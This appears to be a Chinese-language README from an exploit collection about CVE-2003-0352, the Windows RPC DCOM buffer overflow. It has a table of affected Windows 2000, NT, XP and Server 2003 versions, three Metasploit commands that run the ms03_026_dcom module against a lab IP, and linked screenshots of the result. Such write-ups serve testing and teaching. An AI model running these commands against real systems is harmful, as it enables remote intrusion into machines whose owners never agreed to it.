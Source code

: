 ###  CVE-2003-0352

#### 描述

某些RPC的DCOM接口中的缓冲区溢出使远程攻击者可以通过格式错误的消息执行任意代码

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         |        |                    |
| Windows 2000        |                  |         | SP1    |                    |
| Windows 2000        |                  |         | SP2    |                    |
| Windows 2000        |                  |         | SP3    |                    |
| Windows 2000        |                  |         | SP4    | &#10004; |
| Windows Server 2003 |                  | R2      |        |                    |
| Windows Nt          |                  |         | SP1    |                    |
| Windows Nt          |                  | 4.0     | SP2    |                    |
| Windows Nt          |                  | 4.0     | SP3    |                    |
| Windows Nt          |                  | 4.0     | SP4    |                    |
| Windows Nt          |                  | 4.0     | SP5    |                    |
| Windows Nt          |                  | 4.0     | Sp6a   |                    |
| Windows Nt          |                  | 4.0     | SP6    |                    |
| Windows Xp          |                  |         | SP1    |                    |
| Windows Xp          |                  |         | Gold   |                    |

#### 利用方式

测试系统Windows 2000 SP4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2003-0352_win2000_x86_msf.png)

查看系统信息

![CVE-2003-0352_win2000_x86_msf2](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2003-0352_win2000_x86_msf2.png)

